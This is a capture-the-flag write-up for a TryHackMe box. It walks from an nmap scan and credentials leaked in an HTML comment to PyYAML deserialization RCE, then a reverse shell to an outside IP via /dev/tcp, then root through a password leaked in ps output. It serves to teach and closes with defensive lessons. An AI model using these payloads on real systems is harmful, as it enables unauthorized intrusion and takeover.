









# TryHackMe – Hacker Holidays: The Byte Lotus Hotel (Beach Bar)

**Category:** Boot2Root ·
**Tags:** `flask` `pyyaml-deserialization` `rce` `credential-reuse` `linux`

The beach bar's jukebox takes song requests from anyone with a phone. The briefing hints at three things — a DJ who never logs out, a queue that accepts more than song titles, and a service quietly announcing "something" — and each one turns out to be a real finding on the box.

---

## Recon

Full port + service scan on the target.

```bash
nmap -sC -sV -p- -T4 10.112.150.245
```



Only two ports open: SSH on 22 and a Gunicorn web app on 80 that redirects to `/login` — Gunicorn means a Python/Flask backend.

---

## Web Enumeration

Pulled the raw source of the login page and looked for anything left behind in the HTML.

```bash
curl -s http://10.112.150.245/login 
```



Demo credentials `dj / dj` were sitting in an HTML comment above the form ("swap this before the season starts, ticket BAR-7") — that's the DJ who never logs out.

---

## Logging In

Logged in with the leaked creds and landed on the dashboard.



The dashboard exposes an **Import / Export** feature that loads playlists as raw YAML into the Flask backend — the queue that accepts more than song titles.

---

## Confirming RCE

Since YAML is being parsed server-side, tested for unsafe deserialization with a harmless `os.system` payload in the Import textarea.

```yaml
playlist: !!python/object/apply:os.system
  args: ['sleep 5']
```



The app returned `{'playlist': 0}` — the `0` is the return code of `os.system()`, confirming arbitrary command execution.

Once I had a shell I read the source to pin down the bug.

```bash
cat /opt/beach-bar/webapp/app.py
```



The `/import` route calls `yaml.load(content, Loader=yaml.Loader)` instead of `yaml.safe_load()` — `yaml.Loader` deserializes arbitrary Python objects, which is exactly why the payload ran.

---

## Getting a Shell

Started a listener, then sent a reverse-shell payload through the same Import field (swap in your VPN IP).

```bash
nc -lvnp 4444
```

```yaml
playlist: !!python/object/apply:os.system
  args: ['bash -c "bash -i >& /dev/tcp/192.168.152.228/4444 0>&1"']
```



Shell landed as `bartender` (the gunicorn worker runs as that user), giving us a foothold on the box.

---

## User Flag

Stabilized the shell and read the flag from the user's home directory.

```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
cat /home/bartender/user.txt
```



User flag captured as `bartender`.

---

## Privilege Escalation

`sudo -l`, SUID, cron and capabilities were all clean, so I looked at running processes instead — specifically anything owned by root.

```bash
ps auxww | grep -v "\[" | grep root
```



A root-owned daemon `jukeboxd.py` is running with `--stream-pass SunsetSpritz2024!` right in its command line — the service quietly announcing "something". Command-line arguments are world-readable via `ps`, so any local user can read that secret.

---

## Root

Tried the leaked stream password directly against the root account.

```bash
su root
# password: SunsetSpritz2024!
```



The stream password was reused as root's login password — `su root` dropped straight into a root shell, and the flag was in `/root/root.txt`.

---

## Attack Chain

1. **Recon** → Gunicorn/Flask on 80, SSH on 22.
2. **Info leak** → `dj:dj` hardcoded in a login-page HTML comment.
3. **Vulnerability** → Import feature parses YAML with `yaml.load(Loader=yaml.Loader)`.
4. **RCE** → `!!python/object/apply:os.system` payload → reverse shell as `bartender`.
5. **User flag** → `/home/bartender/user.txt`.
6. **Privesc lead** → root daemon leaking `--stream-pass` via `ps`.
7. **Root** → that password reused as root's login password → `su root`.
8. **Root flag** → `/root/root.txt`.

---

## Key Takeaways

- **`yaml.load()` vs `yaml.safe_load()` matters.** Any YAML parsed from user input with the full `Loader` allows arbitrary Python object instantiation and code execution.
- **CLI arguments are not secrets.** Anything passed as `--flag value` is visible to every local user through `ps` and `/proc/<pid>/cmdline`, regardless of file permissions. Use environment variables or a secret manager.
- **Password reuse is still one of the most common privesc paths** — a throwaway service password often protects something far more important.
- **Read the room briefing.** Every clue in the flavor text mapped to a real finding on the box.

---

## Tools Used

`nmap` · `curl` · `netcat` · standard Linux enumeration (`ps`, `find`, `getcap`)
